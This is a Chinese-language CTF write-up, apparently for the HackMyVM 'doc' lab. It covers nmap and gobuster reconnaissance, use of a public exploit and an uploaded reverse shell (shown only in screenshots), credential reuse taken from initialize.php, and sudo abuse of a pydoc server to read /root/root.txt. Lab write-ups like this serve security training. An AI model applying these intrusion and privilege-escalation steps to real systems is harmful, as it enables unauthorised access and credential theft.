








# 信息搜集
主机发现

```clike
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-25 00:55 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0022s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.00014s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.3 (192.168.21.3)
Host is up (0.066s latency).
MAC Address: 72:10:25:EC:4F:8C (Unknown)
Nmap scan report for 192.168.21.6 (192.168.21.6)
Host is up (0.079s latency).
MAC Address: C2:AB:39:9E:98:94 (Unknown)
Nmap scan report for 192.168.21.13 (192.168.21.13)
Host is up (0.00041s latency).
MAC Address: 08:00:27:F1:73:36 (Oracle VirtualBox virtual NIC)
Nmap scan report for party.bah.hmv (192.168.21.11)
Host is up.
Nmap done: 256 IP addresses (6 hosts up) scanned in 2.58 seconds
```
端口扫描

```clike
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.13
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-25 00:55 EDT
Nmap scan report for 192.168.21.13 (192.168.21.13)
Host is up (0.00039s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:F1:73:36 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.88 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p80 192.168.21.13     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-25 00:55 EDT
Nmap scan report for 192.168.21.13 (192.168.21.13)
Host is up (0.00029s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
MAC Address: 08:00:27:F1:73:36 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.69 seconds
```

# 漏洞利用
看一下80端口



目录扫描

```clike
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.13 -w /usr/share/wordlists/dirb/big.txt -x html,php,txt,git,zip,jpg,png
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.13
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              git,zip,jpg,png,html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 200) [Size: 225]
/404.html             (Status: 200) [Size: 198]
/about.html           (Status: 200) [Size: 1491]
/admin                (Status: 301) [Size: 169] [--> http://192.168.21.13/admin/]                                               
/assets               (Status: 301) [Size: 169] [--> http://192.168.21.13/assets/]                                              
/build                (Status: 301) [Size: 169] [--> http://192.168.21.13/build/]                                               
/classes              (Status: 301) [Size: 169] [--> http://192.168.21.13/classes/]                                             
/config.php           (Status: 200) [Size: 0]
/database             (Status: 301) [Size: 169] [--> http://192.168.21.13/database/]                                            
/dist                 (Status: 301) [Size: 169] [--> http://192.168.21.13/dist/]                                                
/home.php             (Status: 500) [Size: 229]
/inc                  (Status: 301) [Size: 169] [--> http://192.168.21.13/inc/]                                                 
/index.php            (Status: 200) [Size: 14323]
/initialize.php       (Status: 200) [Size: 0]
/libs                 (Status: 301) [Size: 169] [--> http://192.168.21.13/libs/]                                                
/pages                (Status: 301) [Size: 169] [--> http://192.168.21.13/pages/]                                               
/plugins              (Status: 301) [Size: 169] [--> http://192.168.21.13/plugins/]                                             
/uploads              (Status: 301) [Size: 169] [--> http://192.168.21.13/uploads/]                                             
Progress: 163752 / 163760 (100.00%)
===============================================================
Finished
===============================================================
```
源码里面有东西，把doc.hmv加入hosts文件



点击页面login按钮


找一下有没有漏洞



选择50221.py，可以利用，但是什么命令都执行不了，看一下里面如何拿到的shell，手动来吧。





这里可以上传反弹shell


成功拿到shell



# 提权
找到bella用户

```clike
www-data@doc:~$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
bella:x:1000:1000:bella,,,:/home/bella:/bin/bash
```

找到了用户名和密码

```clike
www-data@doc:~/html/traffic_offense$ ls -la
ls -la
total 80
drwxr-xr-x 13 www-data www-data 4096 Aug 24  2021 .
drwxr-xr-x  3 www-data www-data 4096 Aug 24  2021 ..
-rw-r--r--  1 www-data www-data  225 Mar 19  2021 .htaccess
-rw-r--r--  1 www-data www-data  198 Mar 19  2021 404.html
-rw-r--r--  1 www-data www-data 1491 Mar 25 01:24 about.html
drwxr-xr-x  9 www-data www-data 4096 Aug 19  2021 admin
drwxr-xr-x  4 www-data www-data 4096 Jul 16  2021 assets
drwxr-xr-x  6 www-data www-data 4096 Jul 16  2021 build
drwxr-xr-x  2 www-data www-data 4096 Aug 17  2021 classes
-rw-r--r--  1 www-data www-data 1236 Jul 16  2021 config.php
drwxr-xr-x  2 www-data www-data 4096 Aug 24  2021 database
drwxr-xr-x  5 www-data www-data 4096 Aug 17  2021 dist
-rw-r--r--  1 www-data www-data  747 Aug 19  2021 home.php
drwxr-xr-x  2 www-data www-data 4096 Aug 19  2021 inc
-rw-r--r--  1 www-data www-data 2590 Aug 19  2021 index.php
-rw-r--r--  1 www-data www-data  644 Aug 24  2021 initialize.php
drwxr-xr-x  4 www-data www-data 4096 Jul 16  2021 libs
drwxr-xr-x  2 www-data www-data 4096 Aug 18  2021 pages
drwxr-xr-x 61 www-data www-data 4096 Jul 16  2021 plugins
drwxr-xr-x  3 www-data www-data 4096 Mar 25 01:24 uploads
www-data@doc:~/html/traffic_offense$ cat initialize.php
cat initialize.php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');
if(!defined('base_url')) define('base_url','http://doc.hmv/');
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"bella");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"be114yTU");
if(!defined('DB_NAME')) define('DB_NAME',"doc");
?>
```
成功

```clike
www-data@doc:~$ su bella
su bella
Password: be114yTU
id 
uid=1000(bella) gid=1000(bella) groups=1000(bella),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```
user.txt

```clike
cd ~
ls -la
total 32
drwxr-xr-x 3 bella bella 4096 Aug 25  2021 .
drwxr-xr-x 3 root  root  4096 Aug 24  2021 ..
-rw-r--r-- 1 bella bella  220 Aug 24  2021 .bash_logout
-rw-r--r-- 1 bella bella 3526 Aug 24  2021 .bashrc
drwxr-xr-x 3 bella bella 4096 Aug 24  2021 .local
-rw-r--r-- 1 bella bella  807 Aug 24  2021 .profile
-rw------- 1 bella bella   14 Aug 24  2021 user.txt
-rw------- 1 bella bella   49 Aug 25  2021 .Xauthority
cat user.txt
HMVtakemydocs
```
找一下有没有可以利用的地方

```clike
sudo -l
Matching Defaults entries for bella on doc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User bella may run the following commands on doc:
    (ALL : ALL) NOPASSWD: /usr/bin/doc
find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/umount
/usr/bin/sudo
whereis getcap
getcap: /usr/sbin/getcap /usr/share/man/man8/getcap.8.gz
/usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
```
把doc传过来看一看





运行doc

```clike
sudo doc
Server ready at http://localhost:7890/
Server commands: [b]rowser, [q]uit
server>
```
访问curl http://localhost:7890/getfile?key=/root/root.txt得到root.txt，也可以得到root密钥
```clike
HMVfinallyroot
```